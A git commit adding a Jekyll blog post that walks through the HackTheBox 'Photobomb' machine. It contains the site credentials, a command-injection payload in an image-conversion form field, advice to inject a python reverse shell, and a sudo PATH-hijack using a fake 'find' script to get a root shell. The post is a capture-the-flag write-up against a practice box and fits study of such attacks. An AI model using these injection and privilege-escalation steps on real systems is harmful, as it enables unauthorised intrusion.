

Before and after one commit to jphjsoares/jphjsoares.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page, without its empty margins (117-1163 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown.

Commit message:
Photobomb machine post

````diff
--- /dev/null
+++ b/_posts/2022-10-17-Photobomb-htb.md
@@ -0,0 +1,95 @@
+---
+title: Photobomb [HTB]
+published: true
+---
+
+# Introduction
+Photobomb is a straightforward Hackthebox machine (Easy difficulty). It does not have a lot of steps and I don't think I learned a lot from this box. Although it was a good way to get into security again. Since I had a little break from it. College got in the way and I got a Quarter-life crisis. Let's get into it then!
+
+# Initial enumeration
+Nmap wasn't that useful for this box. It just displayed SSH and HTTP services, as usual. So I will not post the outputs here.
+
+After setting photobomb.htb in /etc/hosts, we use gobuster to find interesting directories. But since it wasn't useful, I won't post it here either.
+
+# Getting User.txt
+
+Visiting the website we can see a link, and by clicking it, it asks for creds, which we don't have. When we check the sources of the page, there's a JavaScript file that looks for a cookie using regex. If there's a match you're logged in to the site using the username: pH0t0 and the password: b0Mb!
+
+Cool, now we can select and download pictures, there's a POST form. Using burpsuite let's see the request and response. The POST request looks like this:
+
+```
+POST /printer HTTP/1.1
+Host: photobomb.htb
+Content-Length: 78
+Cache-Control: max-age=0
+Upgrade-Insecure-Requests: 1
+Origin: http://photobomb.htb
+Content-Type: application/x-www-form-urlencoded
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
+Referer: http://photobomb.htb/printer
+Accept-Encoding: gzip, deflate
+Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
+Connection: close
+
+photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
+
+```
+
+The following parameters are present: photo, filetype, and dimensions. There might be a conversion taking place on the backend. Which might mean that we can cause some RCE. Let's use parameter tampering with pings to check if there's a delay in response.
+
+```
+photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ping%20-c%203&dimensions=3000x2000
+```
+
+Yup, there's a delay, RCE is possible in the filetype parameter!
+Now just find a python shell online, use URL encoding to encode it, and paste it in the filetype parameter. DON'T FORGET TO WRITE "jpg;" IN THE PARAMETER!
+
+Pop a shell and get user.txt!
+
+# Getting root
+Now we have a shell, so let's try to find something useful to get root. I always start by checking what sudo -l returns.
+
+```
+$ sudo -l
+Matching Defaults entries for wizard on photobomb:
+    env_reset, mail_badpass,
+    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+User wizard may run the following commands on photobomb:
+    (root) SETENV: NOPASSWD: /opt/cleanup.sh
+```
+
+/opt/cleanup.sh looks like a very interesting script. Let's check it out!
+
+```
+$ cat /opt/cleanup.sh
+#!/bin/bash
+. /opt/.bashrc
+cd /home/wizard/photobomb
+
+# clean up log files
+if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
+then
+  /bin/cat log/photobomb.log > log/photobomb.log.old
+  /usr/bin/truncate -s0 log/photobomb.log
+fi
+
+# protect the priceless originals
+find source_images -type f -name '*.jpg' -exec chown root:root {} \;
+```
+
+So basically this script cleans up log files from the web app. I'll be honest, the solution didn't come clear to me. However, it worked and it was very simple and easy to understand, basically, we will "replace" the find command and use it as a way to pop a privileged shell. So let's do it!
+
+```
+$ cd /tmp
+$ touch find
+$ echo "/bin/bash -p" > find
+$ chmod +x find
+$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
+id
+uid=0(root) gid=0(root) groups=0(root)
+```
+
+# Conclusion
+Overall, this machine was very straightforward. It was a very easy machine, without many steps. Getting user was extremely easy for me. However, Root required a little research and creativity! 5/10 box!
````
Also changed, not shown: _posts/2022-01-22-Forge-HTB.md (line endings or trailing spaces).
